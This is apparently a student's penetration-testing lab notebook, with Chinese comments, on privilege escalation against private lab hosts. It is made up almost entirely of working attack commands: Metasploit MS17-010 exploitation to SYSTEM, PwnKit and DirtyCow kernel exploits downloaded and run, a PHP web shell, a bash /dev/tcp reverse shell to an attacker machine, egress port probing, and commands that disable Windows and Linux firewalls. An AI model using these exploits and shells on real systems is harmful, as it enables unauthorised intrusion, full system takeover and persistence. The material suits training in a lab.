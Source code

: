 Penetration Test - Privilege Escalation
===

🔙 [MENU README](../README.md)


# iLab
Module 6 
```
Parrot Security       192.168.0.18    172.19.19.18
Windows Server 2019   192.168.0.20
Windows Server 2008   192.168.0.7, 21
SSH Server            192.168.0.70
WordPress             192.168.0.24
```

---

> PayloadsAllTheThings
> https://github.com/swisskyrepo/PayloadsAllTheThings

# MS17-010
Detect and Scan
```bash

nmap 192.168.0.7 -sVC -n -Pn
# 發現port 445

nmap 192.168.0.7 -sVC -n -Pn -p445 --script smb-protocols.nse
# 對 port 445深度探測，發現版本smb v1
# SMBv1 有 MS17_010 漏洞

nmap 192.168.0.7 -sVC -n -Pn -p445 --script smb-vuln-ms17-010.nse
# 針對 MS17_010 漏洞 進行探測


# Nmap中的Script : ls /usr/share/nmap/scripts/
```
Metasploit
```bash
msfconsole -q # without banner

# set paylaod
msf > search ms17_010
msf > use 2
msf > show options
msf > set rhosts 192.168.0.7
msf > check
msf > exploit  # Attack Success when see "WIN"


# WIN
getuid  # Server username: NT AUTHORITY\SYSTEM
shell
whoami
```

# Sudo
```bash
# su    切換至目標帳號/需要目標帳號密碼
# sudo  預授權
#        是否需要驗證(自己的密碼)
#        路徑、檔名、參數  ex. /bin/target -i


sudo -l
# (ALL:ALL) ALL

sudo -i
# 直接提權
```
```bash
# 去百科全書查找
GTFOBins
```

# PwnKit
低版本Kernel的通殺提權
> https://github.com/ly4k/PwnKit
```bash
# Version Check
uname -a

wget https://github.com/ly4k/PwnKit/raw/main/PwnKit
wget https://github.com/ly4k/PwnKit/raw/main/PwnKit32

# Pass1
sudo python3 -m http.server 80
wget 192.168.0.18/PwnKit
# Pass2
scp PwnKit aleksander@192.168.0.70:~/. #dolphin

# 一般kernel exploit希望執行的路徑有寫入權限
# /tmp是不錯的選擇
chmod +x PwnKit && ./PwnKit
```

# DirtyCow
```bash
# 更低版本的Linux : Linux Kernel 2.6.22 < 3.9
# https://www.exploit-db.com/exploits/40847
searchsploit -m 40847

# Pass1
sudo python3 -m http.server 80
wget 192.168.0.18/40847.cpp
# Pass2
scp 40847.cpp aleksander@192.168.0.70:~/.

# how to use : head 40847.cpp
g++ -Wall -pedantic -02 -std=c++11 -pthread -o dcow 40847.cpp -lutil
./dcow -s
```


# Egress Busting (Remote Control)
Ubuntu(Wordpress)一句話木馬
```bash
# shell.php
<?php system($_GET['cmd']); ?>

curl 192.168.0.24/shell.php?cmd=id
curl -G 192.168.0.24/shell.php --data-urlencode "cmd=id"
# -G : get

# Get Remote Control
nc -vnlp 8888
curl -G 192.168.0.24/shell.php --data-urlencode "cmd=bash -c 'bash -i > /dev/tcp/192.168.0.18/8888 0<&1 2>&1'"
```
Reverse Shell的形成
```bash
# shell
BASH 、 DASH 、ZSH
# shell I/O fild descripter
fd 0  stdin
fd 1  stdout
fd 2  stderr

pidof bash
ls - l /proc/98793/fd
# 觀察:
# 當process運行時會產生一PID，相對的會映射fd到目錄

# ==============================================

# console
tty : 只存在於本機
pty : 遠端模擬tty
# console I/O
stdin  0
stdout 1
stderr 2

python2
python2 --version 2> /dev/null
# 觀察 : 
# python2其實是把版號是把輸出放在stderr
```
```bash
bash -i > /dev/tcp/192.168.0.18/8888 0<&1 2>&1

bash -i : 互動
>       : 1>    將這台機器的BASH的stdout到socket
0<&1    : 0<fd1 將這台機器的BASH的stdin來源設定為stdout
          但前面已經設定stdout來自socket
2>&1    : 將這台機器的BASH的stderr導向BASH的stdout
          但前面已經設定stdout來自socket

至此所有目標機器上的輸出入都跟socket對接起來
```
Test 可以用來反彈的port
```bash
# Attacker
sudo tcpdump -ni eth0 tcp[13]==2

# Victim(with nc)
nc -nz 192.168.0.18 1-10

# Victim(without nc)
echo > /dev/tcp/192.168.0.18/100
for port in {200..210};do (echo > /dev/tcp/192.168.0.18/$port) 2> /dev/null;done
```

---


# Persistent
Windows
```bash
# Display Firewall Setting
netsh advf show allprofiles

# 禁用防火牆
netsh firewall set opmode disable # old version
netsh advf set allprofiles state off # new version
```
Linux
```bash
# Display iptables Setting
sudo iptables -S

sudo iptables -P INPUT ACCEPT  #允許所有INBOUND
sudo iptables -P OUTPUT ACCEPT #允許所有OUTBOUND

sudo iptables -F #flush所以有防火牆規則
# 不建議，因為很多靶機其實預設是全擋
```